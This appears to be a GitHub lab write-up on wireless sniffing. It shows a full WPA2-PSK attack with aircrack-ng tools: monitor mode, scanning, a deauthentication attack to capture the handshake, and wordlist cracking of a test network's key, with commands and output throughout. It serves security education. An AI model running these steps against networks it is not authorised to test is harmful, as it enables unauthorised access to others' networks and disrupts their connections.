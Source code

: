 ```yaml
---
title: Wireless sniffing
---
```


# Wireless sniffing

1. Goal
    * Collect and analyze wireless traffic.

2. Used hardware
    * Alfa AWUS036NHA (Long-range USB Adapter)
    * TL-MR3020 (Porable 3G/4G Wireless N Router)
    * 1 laptop with Kali Linux
    * 1 device with a wireless connection (Smartphone, tablet, ...)

3. Used software
    * Kali Linux (2019.4)

4. Setup

![Success](./assets/setup.png)

5. Getting started
    1. Display the list of available adapters (Kali Linux)
    
    ```
    root@kali:~# airmon-ng

    PHY     Interface       Driver          Chipset

    phy0    wlan0           iwlwifi         Intel Corporation WiFi Link 5100
    phy1    wlan1           ath9k_htc       Qualcomm Atheros Communications AR9271 802.11n

    root@kali:~#
    ```
    
    2. Monitor mode allows a wireless network interface controller to monitor all traffic received on a wireless channel.
        1. Kill the network managers. (To Avoid interference with other tools)
        ```
        root@kali:~# airmon-ng check kill

        Killing these processes:

        PID Name
        626 wpa_supplicant

        root@kali:~#
        ```
        2. Put the adapter in monitor mode
        ```
        root@kali:~# airmon-ng start wlan1

        PHY     Interface       Driver          Chipset

        phy0    wlan0           iwlwifi         Intel Corporation WiFi Link 5100
        phy1    wlan1           ath9k_htc       Qualcomm Atheros Communications AR9271 802.11n

                (mac80211 monitor mode vif enabled for [phy1]wlan1 on [phy1]wlan1mon)
                (mac80211 station mode vif disabled for [phy1]wlan1)

        root@kali:~#
        ```
        3. Scan the environment
        ```
        root@kali:~# airodump-ng wlan1mon

        CH 11 ][ Elapsed: 36 s ][ 2019-12-23 18:58

        BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

        68:FF:7B:45:A5:88  -39       69        0    0   1  270  WPA2 CCMP   PSK  TP-Link_TEST
        3A:43:3D:4B:CE:5E  -55       51        0    0   6  130  WPA2 CCMP   MGT  TelenetWiFree
        04:BF:6D:22:9B:6E  -83       15        0    0   6  130  WPA2 CCMP   PSK  Wireless
        0A:19:70:AA:AB:25  -86        9        0    0   1  54e. WPA2 CCMP   MGT  Proximus Public Wi-Fi
        1E:B0:44:3B:F6:7D  -89        2        0    0   1  130  WPA2 CCMP   PSK  Guest-Orange-bf678
        AC:22:05:AC:81:93  -90        5        0    0   1  130  WPA2 CCMP   PSK  MyBike
 
        root@kali:~#
        ```
    3. Hacking WPA2

        [More information about Wi-Fi Protected Access](https://en.wikipedia.org/wiki/Wi-Fi_Protected_Access)
  
        1. Capture data from a specified BSSID. We are seeking for the MAC address of the victim.
        ```
        root@kali:~# airodump-ng --bssid 68:FF:7B:45:A5:88 -c 1 -w tkip wlan1mon

        CH  1 ][ Elapsed: 1 min ][ 2019-12-23 19:03

        BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

        68:FF:7B:45:A5:88  -27  93      995       45    0   1  270  WPA2 CCMP   PSK  TP-Link_TEST

        BSSID              STATION            PWR   Rate    Lost    Frames  Probe

        68:FF:7B:45:A5:88  C0:33:5E:DD:CA:FD  -37    1e- 1      0       11

        root@kali:~#
        ```
        2.While capturing data in one terminal, deautenticate the victim in a second terminal.
        ```
        root@kali:~# aireplay-ng --deauth 2 -a 68:FF:7B:45:A5:88 -c C0:33:5E:DD:CA:FD wlan1mon
        19:10:10  Waiting for beacon frame (BSSID: 68:FF:7B:45:A5:88) on channel 1
        19:10:11  Sending 64 directed DeAuth (code 7). STMAC: [C0:33:5E:DD:CA:FD] [61|66 ACKs]
        19:10:11  Sending 64 directed DeAuth (code 7). STMAC: [C0:33:5E:DD:CA:FD] [60|64 ACKs]
        root@kali:~#
        ```
        In the first terminal Airodump-ng should display 'WPA handshake'
        ```
        root@kali:~# airodump-ng --bssid 68:FF:7B:45:A5:88 -c 1 -w ccmp  wlan1mon

        CH  1 ][ Elapsed: 42 s ][ 2019-12-23 19:40 ][ WPA handshake: 68:FF:7B:45:A5:88

        BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

        68:FF:7B:45:A5:88  -28  71      380       13    0   1  270  WPA2 CCMP   PSK  TP-Link_TEST

        BSSID              STATION            PWR   Rate    Lost    Frames  Probe

        68:FF:7B:45:A5:88  C0:33:5E:DD:CA:FD  -42    1e- 1e     0       19

        root@kali:~#
        ```
        3. Resolving the PSK. We make use of a list of known passwords.
        ```
        root@kali:~# aircrack-ng  -w /usr/share/john/password.lst ccmp-01.cap
        Opening ccmp-01.capease wait...
        Read 988 packets.

            #  BSSID              ESSID                     Encryption

            1  68:FF:7B:45:A5:88  TP-Link_TEST              WPA (1 handshake)

        Choosing first network as target.

        Opening ccmp-01.capease wait...
        Read 988 packets.

        1 potential targets

                                      Aircrack-ng 1.5.2

            [00:00:00] 428/649 keys tested (1267.84 k/s)

            Time left: 0 seconds                                      65.95%

                                   KEY FOUND! [ NotSecure ]

            Master Key     : 36 D7 58 30 73 6D C6 14 43 22 E9 94 75 C8 D7 66
                             6D D3 E9 5C A0 32 42 68 9B 66 34 5B 98 83 4E 22

            Transient Key  : 64 3A 8D C6 6A ED AD 65 58 4B 52 04 29 D8 01 A0
                             8D C3 E7 F2 E7 35 40 BE 30 9C A1 F0 A2 04 6B 81
                             D7 8A 35 79 4D 38 86 EB 0F 1E BB 5D FB 0B ED 6F
                             F3 67 A4 EC 19 9E D0 79 5F C5 AF CB FA 62 DC D4

            EAPOL HMAC     : 6F 1D 9E 64 3E 39 5C 16 55 FC CB B0 F7 B0 6B 77
        root@kali:~#
        ```
6. Conclusion
    * Pre-shared key WPA and WPA2 remain vulnerable to password cracking attacks if users rely on a weak password or passphrase.